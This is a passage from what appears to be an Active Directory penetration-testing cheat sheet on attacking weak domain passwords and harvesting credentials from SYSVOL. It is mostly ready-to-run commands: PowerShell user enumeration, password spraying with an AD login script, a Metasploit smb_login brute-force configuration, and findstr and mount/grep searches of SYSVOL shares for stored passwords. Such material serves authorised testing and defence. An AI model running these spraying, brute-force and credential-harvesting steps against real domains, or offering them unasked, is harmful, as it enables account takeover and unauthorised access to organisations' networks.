 ### Users with a weak password

Even with a strong corporate password policy and security-aware mature environment, there can still be domain accounts 
with weak passwords.

Get a list of users from the AD using PowerShell on a domain joined Windows machine:

    $a = [adsisearcher]”(&(objectCategory=person)(objectClass=user))”
    $a.PropertiesToLoad.add(“samaccountname”) | out-null
    $a.PageSize = 1
    $a.FindAll() | % { echo $_.properties.samaccountname } > users.txt

Feed into DomainPasswordSpray.ps1 (PowerShell module), Invoke-BruteForce.ps1 (PowerShell module), 
Metasploit smb_login scanner, Nmap ldap-brute NSE script, CrackMapExec, Medusa, Ncrack, Hydra.

####  AD login bruteforcer

Password spraying with [minimalistic AD login bruteforcer](https://www.infosecmatter.com/minimalistic-ad-login-bruteforcer/):

    Import-Module ./adlogin.ps1
    adlogin users.txt domain.com password123

#### Metasploit

Get a list of AD domain users using the `net` command:

    net rpc group members 'Domain Users' -I <DC-IP> -U "<username>"%"<password>"

Do the login attack:

    use auxiliary/scanner/smb/smb_login
    set RHOSTS <DC-IP>
    set SMBDomain <domain>
    set SMBPass file:pwdlist.txt
    set USER_FILE users.txt
    set THREADS 5
    run

### Credentials in SYSVOL

Credentials are stored in `SYSVOL` network share folders, which are folders on domain controllers accessible and 
readable to all authenticated domain users. examples are:

* Group Policy Preferences (GPP) with cPassword attribute (MS14-025)
* Hard-coded credentials in various scripts and configuration files

From a domain joined Windows machine:

    findstr /s /n /i /p password \\\\<domain>\sysvol\<domain>\*

From Linux (Kali Linux):

    mount.cifs -o domain=<domain>,username=<username>,password=<password> //<DC-IP>/SYSVOL /tmp/mnt
    grep -ir 'password' /tmp/mnt
